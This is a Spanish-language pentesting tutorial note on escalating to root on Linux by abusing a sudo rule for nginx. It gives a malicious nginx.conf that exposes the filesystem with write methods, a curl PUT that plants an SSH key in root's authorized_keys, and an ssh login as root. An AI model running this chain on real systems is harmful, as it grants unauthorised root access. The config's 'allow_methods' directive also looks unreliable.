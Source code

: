 # Abusing web server configuration

Esta técnica implica abusar de herramientas que nos permiten crear servidores web como Nginx o Apache en caso de poder ejecutar como *root* estas, al ejecutar `sudo -l` veríamos que podemos ejecutar estas herramientas o mismo por alguna mala configuración que estas herramientas cuenten con permisos [[0. Linux Basics#SUID (Set User ID)]], etc. 

Al poder ejecutar como root este tipo de herramientas podríamos crear un archivo de configuración para posteriormente cargarlo y exponer en un nuevo puerto la raíz del sistema, donde adicionalmente podríamos permitir métodos http como *PUT* o *POST* para, por ejemplo, dirigirnos a la ruta del directorio ssh de root (*/root/.ssh/*) y crear o editar el archivo *authorized_keys* donde cargariamos una clave pública de nuestra máquina de atacantes para así poder ganar acceso al sistema sin necesidad de proporcionar credenciales.

---
# Exploit

Una vez habiendo obtenido acceso al sistema, una de las primeras cosas que se nos vienen a la cabeza por validar estando en búsqueda de una vía potencial para escalar privilegios es verificar los permisos de ejecución que podría tener el usuario con el comando:

```bash
sudo -l
```

Una vez ejecutado el comando, visualizariamos aquellas configuraciones del archivo */etc/sudoers* donde los administradores del sistema insertaran aquellos binarios que podemos ejecutar como distintos usuarios indicando si será necesario ingresar credenciales o no, etc. En este caso, validando estas permisos, podríamos ver un output similar a este:

```bash
.....
User dobliuw may run the following commands on hostname:
    (ALL:ALL) nginx
......
```

En este ejemplo, podemos ver que el usuario actual *dobliuw* puede ejectuar como cualquier usuario (Incluyendo *root*) sin proporcionar contraseña la herramienta *nginx*. Entendiendo esto podemos visualizar el panel de ayuda de esta herramienta:

```bash
nginx -h

......
Options:
.......
  -c filename   : set configuration file (default: /etc/nginx/nginx.conf)
.......
```

De esta manera vemos que la herramienta cuenta con una opción para indicar un archivo de configuración, por lo que podríamos intentar crear unarchivo de configuración tomando de guía el archivo por defecto */etc/nginx/nginx.conf* y haciendo uso de google podríamos buscar como realizar ciertas acciones que nos podrían interesar, como permitir el *dorectory listing*, como permitir métodos http como *PUT* o *POST*, etc.

```bash
nano /tmp/nginx.conf
```

- nginx.conf
```bash
user root; # This indicate that the server will run under the user root management

events {
	worker_connections 768;
}

http {
	server {
		listen  4444; # If we write localhost:4444 this wouldn't open to everyone, just for de machin itself
		root /; # Expose the path / 
		autoindex on; # Allow directory listing
		allow_methods ".*"; # Allow all http methods (GET, POST, PUT, etc)
	}
}
```

Una vez creado el archivo de configuración deseado, simplemente deberíamos abusar de nuestra posibilidad de ejecutar, por ejemplo, como cualquier usuario la herramienta *nginx* y cargar este archivo de configuración "malicioso" haciendo uso de la flag *-c*

```bash
sudo -u root nginx -c /tmp/nginx.conf
```

Hecho esto, estariamos exponiendo bajo el puerto indicado (*4444*) la raíz del sistema ( */* ) permitiendo todos los métodos http, por lo que podríamos realizar una solicitud curl para modificar o crear el archivo **authorized_keys** adjuntando en este nuestra clave ssh pública para posteriormente ganar acceso al sistema sin proporcionar credenciales.

```bash
curl -s -X PUT http://{target_ip}:4444/root/.ssh/authorized_keys -d "{ssh_key.pub}"
```

Una vez realizado esto, habríamos modificado el archivo authorized keys adjunto en el directorio root del sistema, lo que nos permitirá ingresar al sistema como root sin proporcionar contraseña gracias a tener nuestra clave pública adjunta en dicho archivo. ([[0. Linux Basics#Keys in SSH]])

```bash
ssh root@{target_ip}
```

Esta es solo una manera en la cual podríamos ganar acceso al sistema, pero podemos tener en cuenta que las posibilidades son muchas, como desplegar una *web shell*, llevar a cabo un *log poisoning* ([[LFI - (Local File Inclusion)#Log Poisoning - ( **LFI** migrado a RCE - (Remote Command Execution) )]] ), podríamos crear un proxy inverso para interceptar tráfico, etc.
